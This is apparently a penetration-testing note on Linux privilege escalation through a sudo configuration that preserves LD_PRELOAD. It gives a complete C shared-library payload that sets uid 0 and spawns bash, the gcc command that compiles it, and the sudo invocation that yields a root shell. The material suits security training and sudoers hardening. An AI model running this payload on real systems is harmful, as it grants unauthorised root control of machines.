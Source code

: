 * Verify the `LD_PRELOAD` option in `env_keep`

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l
#Example results
Matching Defaults entries for user on ip-0-0-0-0:
    env_reset, env_keep+=LD_PRELOAD
```
{% endcode %}

* Write simple script in C

{% code title="shell.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}

***

* Then compile into a shared library

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
{% endcode %}

{% hint style="info" %}
The extension `.so` represents a shared object
{% endhint %}

***

* Run a sudo command specifying the LD\_PRELOAD option with the script

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>sudo LD_PRELOAD=/home/user/ldpreload/shell.so $command
</strong><strong>#This will prompt root shell
</strong></code></pre>

{% hint style="info" %}
The `$command` in this case is any comand with sudo permissions found by using `sudo -l`
{% endhint %}

***

